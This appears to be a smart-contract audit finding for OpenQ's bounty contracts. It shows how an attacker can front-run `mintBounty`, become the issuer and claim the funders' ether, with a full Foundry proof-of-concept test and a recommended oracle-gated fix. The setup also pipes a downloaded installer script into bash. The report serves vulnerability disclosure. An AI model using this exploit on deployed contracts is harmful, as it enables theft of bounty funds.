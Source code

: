 0xdeadbeef

high

# Attacker can prevent issuers from minting a bounty by creating one before them and steal funders funds.

## Summary

Anyone can call `OpenQV1` to mint a bounty.
By design only one bounty can be created for a bounty ID. 

Therefore, an attacker can front-run the call to mint a bounty with the same parameters as become the issuer. 
The bounty will still appear in the OpenQ platform (due to event handling in subgraph) and funders will be able to fund a fake bounty.

Since the issuer is the attacker
1. Real issuer will not be able to mint a bounty, they will have to create a new github issue
2. Attacker can steal the funds from the funders by issuing claims to himself. 

## Vulnerability Detail

`mintBounty` function in `OpenQV1` can be called by anyone:
https://github.com/sherlock-audit/2023-02-openq/blob/main/contracts/OpenQ/Implementations/OpenQV1.sol#L26-L58

Therefore, if an attacker calls a `mintBounty` with the issue (bounty ID) before the real minter - it will succeed and the attacker will become the issuer. 

There is no validation that the caller is indeed the owner of the issue (bounty ID).

After the bounty is funded (could be funded by other organizations that planned to fund the real issue) 
The attacker (which is the issuer) can call `setTierWinner` on the tiered bounty to himself, and then call `permissionedClaimTieredBounty` in the `ClaimManager`

## Impact

1. Real issuer will not be able to mint a bounty, he will have to create a new github issue
2. Attacker can steal the funds from the funders by issuing himself as a winner. 
3. Confusion and corruption of data in the OpenQ platform

## Code Snippet

I created a foundry POC that demonstrate end to end scenario and explains the entire flow.
To get it running, first install foundry using the following command:
1. `curl -L https://foundry.paradigm.xyz | bash` (from https://book.getfoundry.sh/getting-started/installation#install-the-latest-release-by-using-foundryup)
4. If local node is not already running and contracts are not deployed, configured and funded - execute the following:
```bash
yarn deploy-contracts:localhost
yarn configure-whitelist:localhost
yarn deploy-bounties:localhost
```
3 Perform the following set of commands from the repository root.
```bash
rm -rf foundry; foundryup; mkdir foundry; cd foundry; forge init --no-commit; cp -r ../contracts ./src/; forge install openzeppelin/openzeppelin-contracts --no-commit; forge install openzeppelin/openzeppelin-contracts-upgradeable --no-commit; echo "@openzeppelin/contracts=lib/openzeppelin-contracts/contracts/\n@openzeppelin/contracts-upgradeable=lib/openzeppelin-contracts-upgradeable/contracts/" > remappings.txt
```
5. Add the following to `foundry/test/PreventBountyMintingAndStealFunds.t.sol
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import {OpenQV1} from "../src/contracts/OpenQ/Implementations/OpenQV1.sol";
import {ClaimManagerV1} from "../src/contracts/ClaimManager/Implementations/ClaimManagerV1.sol";
import {DepositManagerV1} from "../src/contracts/DepositManager/Implementations/DepositManagerV1.sol";
import {BountyCore} from "../src/contracts/Bounty/Implementations/BountyCore.sol";
import {OpenQDefinitions} from '../src/contracts/Library/OpenQDefinitions.sol';

contract PreventBountyMintingAndStealFunds is Test {
    // Addresses of contracts
    OpenQV1 OPENQ = OpenQV1(0x5FC8d32690cc91D4c39d9d3abcBD16989F875707);
    ClaimManagerV1 CLAIM_MANAGER = ClaimManagerV1(0x2279B7A0a67DB372996a5FaB50D91eAA73d2eBe6);
    DepositManagerV1 DEPOSIT_MANAGER = DepositManagerV1(0xB7f8BC63BbcaD18155201308C8f3540b07f84F5e);
    
    // Fixed Tiered Bounty 
    BountyCore bountyAddress;

    // Oracle
    address oracle;

    function setUp() public {
        oracle = CLAIM_MANAGER.oracle();
    }

    function fundBountyToken(uint256 amount, uint256 expire, address token) public {
        DEPOSIT_MANAGER.fundBountyToken{value: amount}(
        address(bountyAddress),
        token, 
        amount,
        expire,
        string(abi.encodePacked(msg.sender)) // Unique for every funder
        );
    }

    function test_preventBountyMintingAndStealFunds() public {
        address legit_minter = address(0x1337);
        address hackathon_sponsor = address(0x1111);
        vm.deal(hackathon_sponsor, 10 ether);
        address attacker = address(0x666);

        string memory issueId = "BountyID";

        // create data for minting
        uint256[] memory tiersPayout = new uint256[](2);
        tiersPayout[0] = uint256(10 ether);
        tiersPayout[1] = uint256(0);
        bytes memory data = abi.encode(tiersPayout, address(0x0), false, false, false, "issuerID", "", "");
        OpenQDefinitions.InitOperation memory operationData = OpenQDefinitions.InitOperation(OpenQDefinitions.TIERED_FIXED, data);

        // Attacker front-runs legit_minter and issues a bounty. He will be the issuer
        vm.prank(attacker);
        bountyAddress = BountyCore(OPENQ.mintBounty(issueId, "Awesome ORG", operationData));

        // Legit minter will attempt to mint bounty but will revert because already exists
        vm.prank(legit_minter);
        vm.expectRevert("BOUNTY_ALREADY_EXISTS");
        OPENQ.mintBounty(issueId, "Awesome ORG", operationData);

        // Validate that the attacker is the BountyID issuer
        // At this point, seems like a bounty was generated for the issue
        assertEq(BountyCore(OPENQ.bountyIdToAddress(issueId)).issuer(), attacker);

        /////////// STEAL FUNDS SCENARIO //////////

        // Sponsor funds the bounty  
        vm.prank(hackathon_sponsor);
        fundBountyToken(10 ether, 1000, address(0x0));

        // Attacker will associate his address by registering to openQ
        vm.prank(oracle);
        OPENQ.associateExternalIdToAddress("AttackerID", attacker);

        // Attacker will set himself as a winner 
        vm.prank(attacker);
        OPENQ.setTierWinner(issueId, 0, "AttackerID");

        bytes memory closerData = abi.encode(address(0x0), "dummy", address(0x0), "dummy", 0);
        // Attacker will cash out the bounty
        vm.prank(attacker);
        CLAIM_MANAGER.permissionedClaimTieredBounty(address(bountyAddress), closerData);

        // Validate attacker received all the 10 ether
        assertEq(attacker.balance, 10 ether);
    }
}
```
6. Execute `forge test -m test_preventBountyMintingAndStealFunds --fork-url=http://127.0.0.1:8545 `

## Tool used

VS Code, Foundry
Manual Review

## Recommendation

The main issues here is that there is a trust that anyone can mint bounties while OpenQ expects only issuers related to github issue to mint bounties.

Therefore, it could make sense to put the `mintBounty` behind an `onlyOracle` modifier. The oracle should make sure validate that the caller is the real owner of the issue (like it does for association) 

